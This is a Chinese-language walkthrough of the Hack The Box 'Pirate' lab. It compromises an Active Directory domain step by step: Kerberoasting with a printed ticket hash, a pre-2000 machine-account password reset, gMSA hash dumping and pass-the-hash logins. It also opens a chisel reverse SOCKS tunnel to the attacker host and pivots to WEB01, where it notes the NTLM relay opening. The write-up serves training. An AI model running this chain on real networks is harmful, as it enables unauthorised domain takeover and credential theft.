# HTB Season 10 - Pirate

## 信息收集

官方提供一组凭据用于测试：

```
pentest / p3nt3st2025!&
```

### 端口扫描

```shell
nmap -p- --min-rate 5000 10.129.8.139
nmap -sV -sC -T4 -p 53,80,88,135,139,389,443,445,464,593,636,2179,3268,3269,5985,9389,49667,49677,49678,49680,49681,49906 10.129.8.139
```



```
Nmap scan report for 10.129.8.139 (10.129.8.139)
Host is up (0.51s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-01 10:12:55Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: pirate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-01T10:14:28+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2025-06-09T14:05:15
|_Not valid after:  2026-06-09T14:05:15
443/tcp   open  https?
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: pirate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-01T10:14:29+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2025-06-09T14:05:15
|_Not valid after:  2026-06-09T14:05:15
2179/tcp  open  vmrdp?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: pirate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-01T10:14:28+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2025-06-09T14:05:15
|_Not valid after:  2026-06-09T14:05:15
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: pirate.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2025-06-09T14:05:15
|_Not valid after:  2026-06-09T14:05:15
|_ssl-date: 2026-03-01T10:14:29+00:00; +7h00m01s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49906/tcp open  msrpc         Microsoft Windows RPC
49930/tcp open  msrpc         Microsoft Windows RPC
49954/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-01T10:13:48
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.10 seconds
```

根据端口开放情况可以判断为域环境

### NXC

```shell
nxc smb 10.129.8.139 -u "pentest" -p "p3nt3st2025!&"
```



与nmap扫描结果一致,并且SMBv1未开启因此无法通过MS17-010漏洞利用获取权限

### bloodhound

```shell
bloodhound-python -u 'pentest' -p 'p3nt3st2025!&' -d 'pirate.htb' -c All --zip --dns-tcp -ns 10.129.8.139
```

导入bloodhound

#### 最短到域管的路径



#### All Kerberoastable Users



GMSA_ADFS_PROD以及另一个组托管服务账户GMSA_ADCS_PROD也在REMOTE MANAGEMENT USERS组中



A.WHITE_ADM对WEB01有委派权限



#### MS01.PIRATE.HTB

我们获取MS01机器用户权限来获取GMSA组托管服务账户的权限



MS01属于组PRE-WINDOWS 2000 COMPATIBILITY ACCESS,这个组是一个遗留兼容组,如果错误配置会导致账户密码为主机名小写



## 域渗透

### Kerberosting attack

```shell
impacket-GetUserSPNs pirate.htb/pentest:'p3nt3st2025!&' -dc-ip 10.129.8.139 -request
```



抓取到a.white_adm的hash

```
$krb5tgs$23$*a.white_adm$PIRATE.HTB$pirate.htb/a.white_adm*$62774a6ee469deb02f50b5bb4a1d8814$74ae8c26e7c68642ca9c32c2af3336472734d3a5672c9827054c36e3d85a789fca6e0b195142c0d717f659458b38251d27eb5de6febb66749ac55a9c2a30219ccbd25e8ba43590f3c9b1e4b4b9cb274638468f1423e8d5b1956919a76bfa23d6b952fc9913c1a5292345807e4935e7d130e3b315132075366884d736151cba6e2601f166a1ac4774ab013e074173a9167768eb933ea70b5684b9689462050066f5085d437d514816c5df8cf040f842151d9672b884da4ba8b80cfdf38b0a045d486c2bb8cff77befb3d72db9ac5be433a1a616fc83c22d48583cb9830c43d9417a784d70d8e87a85dadfe2cd2b761f86bfcf355d109dba1a4ab22a379e06e95d0b5df1b86b9e9d7202608a4ad20bdb823e372af392ac66257e069d18427b41dc190885b6083502d9a8916a2a635883765ec3024d2767e1a192448b79d6404f546bd838371fa7fc5cb251df2964aafe77154e74934bbe45aa55bd5eec99d3b7ec04360287105f353ecb3a038ec86166cc23c8309bae99c5b6ae7677f3319be459f20da271b9520b2ee7f948101227f4e9caac5a453e002f7389859dd2a35739cc30456f27b4b210dd1bf7dfacb9fff97159adb2006f82e6ec3ce509da329046b8e14d7c53aafbbff94889a71ef7ab8cf29a0fd4c7201bd3de18b12c637d69294a0599149cf14764fa938ee591cc599a5a03bc9e59c5c40620dddd855b6ab0e8d0e430a42c7564f93b50c277dccf6a308f9b762b247b4009ccfd6b8b31b9a42b7abc61c8c0a0d3a1a8185dc5d9130cdb2f368adfbce6bfda032304713015d6cfc722835f4535c1c921eacd169ef32ba6d4cf01af458b9cebe6212ace4526e88507ad4b672968dee171af91307062ba5d641b73d92c1d77d7fc072b7d442e7d08f8dd0a7c33d15b6d9ff13f3450d602cc2725cea8a9bcde99b6684e3e60ca460cfaab4b02416f3abc349f470798d2ac6fc1a540bce50d6223ff6168ca0ec40a277292a7c008858a3c553426c639cead3eebe03e0a2b85044632af39350aea7e133bed43dc227db2292b7daf34ab60ccf5ffe4bc94dc7d742e6fbb8ba12fd9d160efd2e42a3217e887a60aedcde975e941b2a1781893afb340448416a9bf49d029a2b085f4bc8156be170364ed81939f52866d649af1b53376e6e95b4a358a625e54d79a7c63928bc19292d5d3ee03d635ec56afd800ab7f3b8942103993270f03a8528981a457048b21c1823d475ae9dbbda70237df1c45c60e94afc9c03641fa22bcc5b313a1c1cc6cc51facf35bd0e2c401d2e1b031e8b320b64b66354c51492b4c256954b4566bd0fa93d4514fe63a19613c07f3fa5dba540044607d3124c04a923fd468681c4f4ce4fe7291bb0eb83d560285973c8d43b0c9b8191c9ac5037ff51d28b82f3c21b9a9e8008a54dc40766c9084de485cf424c20a47e3a7967e90cf52010a1f171c79e4c3
```

尝试破解hash失败

### Pre2k 攻击

```shell
pre2k -u pentest -p 'p3nt3st2025!&' -dc-ip 10.129.8.139 -d pirate.htb
```

发现两个pre2k用户ms01和exch01



直接登录ms01和exch01

#### ms01

预创建未启用ms01,登陆失败



修改密码@Zhaha123后激活账户

```shell
impacket-changepasswd pirate.htb/MS01\$@10.129.8.139 -newpasswd '@Zhaha123' -p rpc-samr
```

登录成功




##### ReadGMSAPassword

ms01可以通过ReadGMSAPassword权限读取GMSA组托管服务账户的密码



```shell
python gMSADumper.py -u 'MS01$' -p '@Zhaha123' -d 'pirate.htb'
```



HASH登入GMSA_ADFS_PROD

```shell
nxc smb 10.129.8.139 -u "GMSA_ADFS_PROD$" -H "8126756fb2e69697bfcb04816e685839"
```

成功登入



#### dc01

```shell
evil-winrm -i dc01.pirate.htb -u GMSA_ADFS_PROD$ -H 8126756fb2e69697bfcb04816e685839
```

##### 主机探测

ipconfig发现是双网卡



发现192.168.1.100内网地址

使用powershell探测主机

```powershell
1..255 | ForEach-Object { $ip = "192.168.100.$_"; if (Test-NetConnection -ComputerName $ip -InformationLevel Quiet -ErrorAction SilentlyContinue) { $ip } }
```

存活主机为192.168.100.2



#####　反向sock连接

kali监听4444

```shell
chisel server -p 4444 --reverse
```



dc01反向连接kali的4444端口

```shell
chisel client 10.10.16.252:4444 R:socks
```



### WEB01

#### 端口扫描

```shell
proxychains4 nmap -sV -sC -p 53,80,88,135,139,389,443,445,464,593,636,2179,3268,3269,5985,9389,49667,49677,49678,49680,49681,49906 192.168.100.2
```

```
Nmap scan report for 192.168.100.2 (192.168.100.2)
Host is up (0.00s latency).

PORT      STATE  SERVICE          VERSION
53/tcp    closed domain
80/tcp    open   http             Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    closed kerberos-sec
135/tcp   open   msrpc            Microsoft Windows RPC
139/tcp   open   netbios-ssn      Microsoft Windows netbios-ssn
389/tcp   closed ldap
443/tcp   open   https?
445/tcp   open   microsoft-ds?
464/tcp   closed kpasswd5
593/tcp   closed http-rpc-epmap
636/tcp   closed ldapssl
2179/tcp  closed vmrdp
3268/tcp  closed globalcatLDAP
3269/tcp  closed globalcatLDAPssl
5985/tcp  open   http             Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  closed adws
49667/tcp open   msrpc            Microsoft Windows RPC
49677/tcp closed unknown
49678/tcp closed unknown
49680/tcp closed unknown
49681/tcp closed unknown
49906/tcp closed unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: 23m51s
| smb2-time: 
|   date: 2026-03-06T00:09:11
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 409.06 seconds
```

#### 远程登录

```shell
proxychains4 evil-winrm -i 192.168.100.2 -u GMSA_ADFS_PROD$ -H 8126756fb2e69697bfcb04816e685839
```



#### nxc

```shell
proxychains4 nxc smb 192.168.100.2 -u "GMSA_ADFS_PROD$" -H "8126756fb2e69697bfcb04816e685839"
```

发现WEB01禁用SMB签名,这导致收到NTLM中继攻击

